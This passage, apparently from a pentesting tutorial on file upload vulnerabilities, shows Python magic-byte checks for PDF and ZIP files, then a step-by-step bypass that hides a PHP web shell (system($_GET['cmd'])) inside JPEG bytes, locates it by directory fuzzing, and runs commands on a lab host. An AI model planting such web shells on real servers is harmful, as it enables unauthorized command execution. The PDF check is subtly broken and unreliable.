 ```python
# PDF magic bytes: %PDF-1. 
if file_content == b'%PDF-1.':
	print("File is a PDF document.") 
else:     
	print("File is not a PDF document.")
```
4. **ZIP Archive Upload:**
```python
# Assuming you have a file upload named "file" in your web application
# Here, we read the first 4 bytes to check for ZIP magic bytes

uploaded_file = request.files['file']
file_content = uploaded_file.read(4)

# ZIP magic bytes: 50 4B 03 04
if file_content == b'PK\x03\x04':
    print("File is a ZIP archive.")
else:
    print("File is not a ZIP archive.")
```

##### Attack Vector
1. **Upload an accepted normal file**
2. **Intercept the request using BurpSuite**
3. **Change the file type to .php**
4. **The Application may detect that you are uploading a php not .jpg or .png file**
5. **Insert the content of the PHP code between the magic bytes of the image file**
6. **Change the content of the file to PHP code between the Header & Trail of the image file**
	```php
	ÿØÿàFIFÿâXICC_PROFILEHLinomntrRGB XYZ ÎacspMSFT sRGBöÖHP
	<?php system($_GET['cmd']); ?>
	fÐóÎ6Æñk¼Ê2AôMh`3y6_Ö6ÑorT¢ÅæéÝF^ÿ
	```
7. **Find the location of the uploaded PHP file**
	```bash
	$ fuff -u http://localhost/FUZZ -w /usr/share/wordlist/dirb/common.txt
	```
	- This will enumerate all the directories in the specified domain
8. **Execute a command from the visited file URL**
```url
http://localhost/labs/uploads/file.php?cmd=whoami
